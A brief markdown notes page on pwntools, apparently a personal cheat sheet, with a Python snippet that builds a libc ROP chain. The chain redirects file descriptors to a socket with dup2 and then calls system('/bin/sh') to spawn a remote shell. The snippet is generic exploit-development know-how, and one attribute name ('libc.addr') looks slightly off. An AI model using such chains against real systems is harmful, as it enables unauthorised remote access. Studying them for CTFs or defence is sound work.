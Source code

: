 PWNTOOLS
=
[PWNtools Document](http://pwntools.readthedocs.io/en/stable/)
# Generate ROP
[pwnlib.rop.rop](http://docs.pwntools.com/en/stable/rop/rop.html?highlight=ROP)
```python
libc=ELF('./libc.so.6')
#set baseaddress
libc.addr=libcbase
rop = ROP(libc, badchars="\n")
#redirect to socket
rop.dup2(SOCKFD, 0)
rop.dup2(SOCKFD, 1)
rop.dup2(SOCKFD, 2)
#call system func
rop.system(next(libc.search("/bin/sh")))
#call read
rop.read(SOCKFD,buf,len)
rop.call('read', [SOCKFD,buf,len])
```

